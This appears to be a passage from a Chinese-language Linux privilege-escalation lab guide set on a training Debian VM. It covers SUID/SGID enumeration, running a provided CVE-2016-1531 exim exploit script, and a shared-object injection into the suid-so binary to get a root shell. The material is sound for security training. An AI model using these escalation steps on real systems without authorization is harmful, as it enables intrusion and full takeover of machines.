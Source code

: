 ## SUID / SGID 可执行文件 - 已知漏洞

找到 Debian 虚拟机上所有的 SUID/SGID 可执行文件：

```shell
find / -type f -a \(-perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

请注意，结果中出现了 `/usr/sbin/exim-4.84-3` 。尝试找到针对这个版本 exim 的已知漏洞。`Exploit-DB` 、`Google` 和 `GitHub` 都是搜索的好去处！

应该可以找到一个与这个 exim 版本完全匹配的本地特权升级漏洞利用。在 Debian 虚拟机上的 `/home/user/tools/suid/exim/cve-2016-1531.sh` 路径下可以找到一份副本。

运行这个漏洞利用脚本以获得一个 root shell：

```shell
/home/user/tools/suid/exim/cve-2016-1531.sh
```

在继续之前记得退出 root shell！

## SUID / SGID 可执行文件 - 共享对象注入

`/usr/local/bin/suid-so` 的 SUID 可执行文件容易受到共享对象注入攻击。

首先，执行该文件，并注意目前它在退出前显示一个进度条：

```shell
/usr/local/bin/suid-so
```

运行 `strace` 命令来跟踪该文件，并在输出中搜索 `open/access` 调用和 `no such file` 错误：

```shell
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

注意到可执行文件试图加载位于我们家目录下的 `/home/user/.config/libcalc.so` 共享对象，但未找到。

为 `libcalc.so` 文件创建 `.config` 目录：

```shell
mkdir /home/user/.config
```

示例共享对象代码位于 `/home/user/tools/suid/libcalc.c` 。它简单地生成一个 `Bash shell` 。将代码编译成一个共享对象，放置到 `suid-so` 可执行文件寻找的位置：

```shell
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

再次执行 `suid-so` 可执行文件，注意这次不再显示进度条，而是得到了一个 root shell。

```shell
/usr/local/bin/suid-so
```

在继续之前记得退出 root shell！

## SUID / SGID 可执行文件 - 环境变量
